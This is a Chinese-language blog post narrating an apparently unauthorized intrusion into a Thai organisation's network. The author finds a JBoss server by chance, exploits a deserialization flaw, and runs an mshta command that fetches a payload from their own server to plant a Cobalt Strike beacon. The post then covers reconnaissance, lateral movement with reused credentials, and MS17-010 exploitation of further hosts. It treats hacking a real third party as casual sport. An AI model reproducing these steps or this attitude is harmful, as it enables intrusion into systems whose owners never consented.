 ```yaml
---
layout:     post
title:    某内网渗透（一） 
subtitle:   泰国某内网渗透。
date:       2019-09-12。
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 渗透
    - 内网
    - 红队
---
```

# 某内网渗透（一）  

### 起源  
偶然间，随手翻到一个jboss的默认界面，一看ip还是泰国的，默认端口80是iis7的，我觉得可能有戏，掏出了jboss反序列化工具一跑，诶嘿还是administrator的，8说了开冲。  
![jboss](/img/th-jboss.jpg)



### 基本信息收集  
看了下网络配置：  
![jboss1](/img/th-ipconfig.jpg)  
emmm，应该是只有一个网段能用的，而且这机器似乎是有用来开虚拟机的。  
jboss工具掉链子了，直接掏出cs上线了。  
生成一个hta，开启文件下载服务，在工具那边执行：  
```
mshta http://xxx.xxx.xxx.xxx:8080/download/file.ext  
```
上线  
![jboss2](/img/th-beacon.png)
查看下端口：  
![jboss3](/img/th-ports.png)  
开得有点多。   
查看下进程：  
![jboss4](/img/th-tasklist.png)
好像没有杀软。  
查看下用户：
![jboss15](/img/th-users.png)  
看起来是被日烂了，不知道内网情况怎么样。  
直接在内网开始扫，把主机先发现下。  
![jboss5](/img/th-network.png)  
emmm，机器还是有不少的。开始尝试下横向了。  

### 横向  
发现了一台名称有点像的机器，我这台是XXX-WEB，那台是XXX-SERVER，试了下用这台的凭证去登陆，emmm成了。  
![jboss6](/img/th-psh.png)
返回了system的beacon。  
![jboss7](/img/th-2beacon.png)
其他的试了下基本都是不行了，换一下方法，用ms17-010，不过我这个cs用这个插件有问题。用不来，就直接把beacon转成meterpreter用。    
![jboss8](/img/th-swpan.png)  
添加下路由表。  
![jboss9](/img/th-addroute.png)  
扫描下ms17-10  
![jboss10](/img/th-ms17010scan.png)
稍等片刻  
![jboss11](/img/th-ms17010scan1.png)
emmm 还是挺多的。   
打一下  
![jboss12](/img/th-ms17010use.png)  
有返回，这时候发现了一个问题，没办法回连cs。  
转换也没法转，报错，用mshta，powershell也没法执行。  
等我再看看原因，再开下一篇。  
